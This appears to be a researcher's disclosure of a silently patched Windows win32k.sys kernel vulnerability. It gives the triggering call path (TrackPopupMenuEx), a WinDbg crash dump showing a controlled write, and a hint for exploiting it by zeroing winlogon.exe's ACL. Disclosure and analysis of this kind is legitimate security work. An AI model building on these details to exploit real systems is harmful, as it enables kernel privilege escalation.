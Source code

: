 # CVEXX-XX
****
https://twitter.com/R00tkitSMM (firozimaysam@gmail.com) telegram username : https://telegram.me/firozi



i just found Windows kernel vulnerability in win32k.sys Driver , the bug is fixed in kb2998812 without even mentioning there was a vulnerability in win32k.sys 

so it seems Microsoft  fix some bugs without talks about it :) 

MS use safe_cast_fnid_o_PMENUWND to check return value of xxxCreatewindowEx  to kill 0Day silently 


An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode


Exploiting  this Bug is so trivial, there was  multiple methods  to Exploit it ( for example Find ACL of winlogon.exe and Zero It)

```
win32k!HMUnlockObject:
929bc556 8bff            mov     edi,edi
929bc558 55              push    ebp
929bc559 8bec            mov     ebp,esp
929bc55b 8b4508          mov     eax,dword ptr [ebp+8]
929bc55e ff4804          dec     dword ptr [eax+4]    ds:0023:41414145=????????
929bc561 7506            jne     win32k!HMUnlockObject+0x13 (929bc569)
929bc563 50              push    eax
929bc564 e8cf3a0000      call    win32k!HMUnlockObjectInternal (929c0038)
929bc569 5d              pop     ebp
929bc56a c20400          ret     4


2: kd> !analyze -v
*******************************************************************************
*                                                                             *
*                        Bugcheck Analysis                                    *
*                                                                             *
*******************************************************************************

Unknown bugcheck code (0)
Unknown bugcheck description
Arguments:
Arg1: 00000000
Arg2: 00000000
Arg3: 00000000
Arg4: 00000000

Debugging Details:
------------------

PROCESS_NAME:  0day.exe

FAULTING_IP: 
win32k!HMUnlockObject+8
929bc55e ff4804          dec     dword ptr [eax+4]

EXCEPTION_RECORD:  ffffffff -- (.exr 0xffffffffffffffff)
ExceptionAddress: 929bc55e (win32k!HMUnlockObject+0x00000008)
   ExceptionCode: c0000005 (Access violation)
  ExceptionFlags: 00000000
NumberParameters: 2
   Parameter[0]: 00000001
   Parameter[1]: 41414145
Attempt to write to address 41414145

ERROR_CODE: (NTSTATUS) 0xc0000005 - The instruction at 0x%08lx referenced memory at 0x%08lx. The memory could not be %s.

EXCEPTION_CODE: (NTSTATUS) 0xc0000005 - The instruction at 0x%08lx referenced memory at 0x%08lx. The memory could not be %s.

EXCEPTION_PARAMETER1:  00000001

EXCEPTION_PARAMETER2:  41414145

WRITE_ADDRESS:  41414145 

FOLLOWUP_IP: 
win32k!HMUnlockObject+8
929bc55e ff4804          dec     dword ptr [eax+4]

BUGCHECK_STR:  ACCESS_VIOLATION

DEFAULT_BUCKET_ID:  STRING_DEREFERENCE

CURRENT_IRQL:  0

LAST_CONTROL_TRANSFER:  from 929bc9e0 to 929bc55e

STACK_TEXT:  
aae0bc38 929bc9e0 41414141 00010007 00010003 win32k!HMUnlockObject+0x8
aae0bc48 92a2f31c fea22938 00040199 00000000 win32k!HMAssignmentLock+0x45
aae0bca0 92a258a5 fea22938 00000182 0000026c win32k!xxxTrackPopupMenuEx+0x1ce
aae0bd14 8165542a 00040199 00000182 0000026c win32k!NtUserTrackPopupMenuEx+0xc3
aae0bd14 77b864f4 00040199 00000182 0000026c nt!KiFastCallEntry+0x12a
001af83c 763b5f7e 763b4b56 00040199 00000182 ntdll!KiFastSystemCallRet
001af840 763b4b56 00040199 00000182 0000026c USER32!NtUserTrackPopupMenuEx+0xc
001af860 00aa1869 00040199 00000182 0000026c USER32!TrackPopupMenu+0x1b
001af978 00aa1ada 0003001e 001af960 ffffffff 0day!ShowPopupMenu+0x129 [c:\users\rootkit\documents\visual studio 2010\projects\0day\0day\main.cpp @ 113]
001afaa8 00aa2290 00a90000 00000000 001f1d59 0day!WinMain+0x15a [c:\users\rootkit\documents\visual studio 2010\projects\0day\0day\main.cpp @ 188]
001afb50 00aa201f 001afb64 76201174 7ffdb000 0day!__tmainCRTStartup+0x260 [f:\dd\vctools\crt_bld\self_x86\crt\src\crtexe.c @ 547]
001afb58 76201174 7ffdb000 001afba4 77b9b3f5 0day!WinMainCRTStartup+0xf [f:\dd\vctools\crt_bld\self_x86\crt\src\crtexe.c @ 371]
001afb64 77b9b3f5 7ffdb000 77d9310f 00000000 kernel32!BaseThreadInitThunk+0xe
001afba4 77b9b3c8 00aa1181 7ffdb000 00000000 ntdll!__RtlUserThreadStart+0x70
001afbbc 00000000 00aa1181 7ffdb000 00000000 ntdll!_RtlUserThreadStart+0x1b


STACK_COMMAND:  kb

SYMBOL_STACK_INDEX:  0

SYMBOL_NAME:  win32k!HMUnlockObject+8

FOLLOWUP_NAME:  MachineOwner

MODULE_NAME: win32k

IMAGE_NAME:  win32k.sys

DEBUG_FLR_IMAGE_TIMESTAMP:  4a5bc2a2

FAILURE_BUCKET_ID:  ACCESS_VIOLATION_win32k!HMUnlockObject+8

BUCKET_ID:  ACCESS_VIOLATION_win32k!HMUnlockObject+8

Followup: MachineOwner
---------

```

